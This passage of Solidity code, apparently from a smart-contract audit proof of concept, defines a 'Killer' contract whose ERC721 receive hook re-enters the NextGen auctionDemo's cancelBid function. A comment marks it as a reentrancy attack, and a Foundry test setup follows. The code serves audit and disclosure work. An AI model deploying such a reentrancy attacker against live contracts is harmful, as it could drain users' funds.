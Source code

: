 ```js
    ) external returns (bytes4);
}

interface IAuctionDemo {
    function cancelBid(uint256 _tokenid, uint256 index) external;
}

contract Killer is IERC721Receiver {
    IAuctionDemo auctionDemoContract;

    constructor(address _auctionDemo) payable {
        auctionDemoContract = IAuctionDemo(_auctionDemo);
    }

    function onERC721Received(address, address, uint256, bytes memory)
        public
        virtual
        override
        returns (bytes4)
    {
        auctionDemoContract.cancelBid(10000000000, 2); // @audit-issue : reentrancy attack
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}

contract t0x1cClaimAuction is Test {
    address public bidder1;
    address public bidder2;
    address public trustedAccount;
    bytes32 public merkleRoot_msgSender;
    bytes32[] public _merkleProof_msgSender;
    string[] public _collectionScript;

    DelegationManagementContract hhDelegation;
    randomPool hhRandoms;
    NextGenAdmins hhAdmin;
    NextGenCore hhCore;
    NextGenRandomizerNXT hhRandomizer;
    NextGenMinterContract hhMinter;
    auctionDemo hhAuctionDemo;

    Killer contractKiller;

    function setUp() public {
        bidder1 = makeAddr("bidder1");
        bidder2 = makeAddr("bidder2");
        trustedAccount = makeAddr("trustedAccount");
        merkleRoot_msgSender =
            0x208fae20dc5074374a223a1a825bfc23fbf2c9c88f5b092fa3421d54058170d3; // gives max allowance of 19 tokens in phase1
        _merkleProof_msgSender = new bytes32[](1);
        _merkleProof_msgSender[0] =
            0x9200f00000000000000000000000000000000000000000000000000000000001;

        hhDelegation = new DelegationManagementContract();
        hhRandoms = new randomPool();
        hhAdmin = new NextGenAdmins();
        hhCore = new NextGenCore("Next Gen Core", "NEXTGEN", address(hhAdmin));

        // This example uses the NXT Randomizer
        hhRandomizer =
```